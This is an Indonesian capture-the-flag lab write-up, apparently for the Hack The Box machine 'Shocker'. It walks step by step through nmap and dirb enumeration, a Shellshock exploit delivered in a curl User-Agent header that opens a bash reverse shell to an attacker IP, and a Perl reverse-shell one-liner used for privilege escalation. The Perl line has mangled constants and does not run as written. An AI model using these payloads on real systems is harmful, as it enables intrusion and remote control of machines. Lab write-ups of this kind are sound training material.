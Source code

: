 1. nmap -sS -sC 10.10.10.56 -oN nmap.txt
open 80 dan 2222

2. buka web nya pada port 80
3. lakukan directory traversal menggunakan dirb
dirb http://10.10.10.56

Didapatkan hasil cgi-bin ketemu. 
cgi-bin digunakan untuk interaksi Web Browser untuk meningkatkan,
kualitas web page atau website

4. mampir ke sini
https://serverpilot.io/docs/how-to-create-a-cgi-bin-directory/

didapati bahwa ada file yang memerlukan .sh

5. ketik lagi
dirp http://10.10.10.56/cgi-bin -X .sh

ditemukan sebuah file .sh pada /cgi-bin/user.sh

6.1. jalankan listener/netcat
sudo nc -lnvp 1234

6.2. lakukan curl
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.203/1234 0>&1' http://10.10.10.56/cgi-bin/user.sh

7. jalankan reverse shell
python3 -c 'import pty; pty.spawn("/bin/sh")' 

8. privilege escalation
sudo -l

https://highon.coffee/blog/reverse-shell-cheat-sheet/

9.1 netcat 
nc -lnvp 4321

9.2 jalankan command berikut
perl -e 'use Socket;$i="10.10.14.203";$p=4321;socket(S,PFINET,SOCKSTREAM,getprotobyname("tcp"));if(connect(S,sockaddrin($p,inetaton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
